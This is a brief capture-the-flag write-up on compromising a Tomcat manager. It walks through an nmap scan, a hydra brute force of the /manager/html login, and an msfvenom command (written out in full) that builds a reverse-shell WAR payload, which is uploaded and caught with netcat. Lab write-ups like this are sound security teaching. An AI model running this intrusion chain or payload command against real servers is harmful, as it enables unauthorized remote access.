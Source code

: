 # Writeup
Using `nmap` to scan and get what port is open and web server.
![](./img/scan.png)

After accessing to `/manager/html`, using `hydra` to brute force password 
![](./img/force.png)

Using `msfvenom` to create payload: `msfvenom -p windows/reverse_shell_tcp -LHOST {ip} -LPORT [port] -f war > payload.war`. Unpack file so we can see `.jsp` file.
![](./img/unpack.png)

Upload `war` file, access `http://{ip}:{port}/manager/html/{war}/{jsp}`, use `netcat` to listen and get reverse shell.
![](./img/upload.png)

Flag's location
![](./img/flag.png)
